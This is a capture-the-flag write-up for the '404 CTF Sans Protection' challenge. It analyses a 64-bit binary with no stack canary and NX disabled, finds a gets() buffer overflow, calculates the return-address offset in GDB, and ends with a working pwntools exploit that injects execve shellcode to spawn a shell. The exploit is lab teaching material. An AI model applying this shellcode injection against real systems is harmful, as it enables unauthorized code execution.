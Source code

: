 ```yaml
---
title: 404 CTF Sans Protection
date: 2022-09-13 18:18:35
---
```

<center>

404 CTF Sans Protection Writeup

</center>

Before we start you need to download the binary from here : [Binary](https://drive.google.com/file/d/11CL4lsEt_YBYbp5uQU474CR9KLv6eYJn/view?usp=sharing).

Here we go let's start by running the binary and see what we have : 

````console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ ./fragile
Montrez-nous de quoi vous êtes capable !
Cadeau : 0x7fff8ec7ec20
Asslema ya Hmema
````

As you can see the binary gave us some random memory address with a beautiful hello in *french*. Why don't we start by checking the architecture of the binary with the file command : 
```console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ file fragile
```
We got : 

````bash
fragile: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6a457609506482cdebb144dbacd9c1f6fba34955, stripped
````
As we can see the architecture of the binary is 64 bit, it's also dynamically linked and not striped. Let's try checking out the mitigations that is ON : 

````console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ pwn checksec fragile
````

We got : 

````bash 
[*] '/mnt/c/Users/IR0NYTE/Desktop/ctf/fragile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
````

So as you can see we have no stack canary protecting the stack from overriding the return of the program, we also have the right to execute code in the stack since the **NX** is disabled. Since this two mitagations are off i was curious a little of bit to know more about this random address that the binary was throwing at me so i fired up my ghidra and started making some analysis on it, i tried to decompile the main. Here's what i got : 


![](https://i.imgur.com/rlikp42.png)

After a quick look at the main, i noticed that there was a call to the **gets** function wich was a little of bit wired since the **gets** function have no limit on the size of the input which can lead to a buffer overflow attack. After that, i have noticed also that the address that the program was displaying was the address of the buffer. The idea is quite simple, we will try to inject a 64 bit shellcode in the beginning of the buffer from [Shell Storm](https://shell-storm.org/shellcode/) which will spawn for us a shell (*system("bin/bash")* Syscall), after that we will try to overflow the buffer until we get to the return address of the program then just redirect the return to the address of the buffer to execute our malicious shellcode. so we need to calculate the offset between the buffer and the return address. Let's fire up the gdb and set a break point after that **gets** call than i just typed in "mike" and then tried to calculate the offset from there :

````gdb
gef➤  search-pattern "mike"
[+] Searching 'mike' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x6022a0 - 0x6022a6  →   "mike\n"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffe0f0 - 0x7fffffffe0f4  →   "mike"
gef➤  i f
Stack level 0, frame at 0x7fffffffe140:
 rip = 0x400662; saved rip = 0x7ffff7e0d7fd
 called by frame at 0x7fffffffe210
 Arglist at 0x7fffffffe0e8, args:
 Locals at 0x7fffffffe0e8, Previous frame's sp is 0x7fffffffe140
 Saved registers:
  rbp at 0x7fffffffe130, rip at 0x7fffffffe138
````
Offset = 0x7fffffffe138 - 0x7fffffffe0f0 = 0x48.

Here's the final exploit : 

````python
from pwn import *

#target = remote('challenge.404ctf.fr', 31720)
target = process('./fragile') 

# Setting up the leak
# 0x7ffe3c40e910
screen = target.recvline().decode()
leak = target.recvline().decode().strip("Cadeau :").strip("\n")
leak = bytes(leak, 'utf-8')
leak = int(leak, 16)

# Print the leak
print("Leak : ", hex(leak))

# Setting up the Payload
offset = 0x48
payload = b""
payload += b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
payload += b"A"*(offset - len(payload))
payload += p64(leak)

#gdb.attach(target, gdbscript='b* 00400668')
target.sendline(payload)
target.interactive()
````





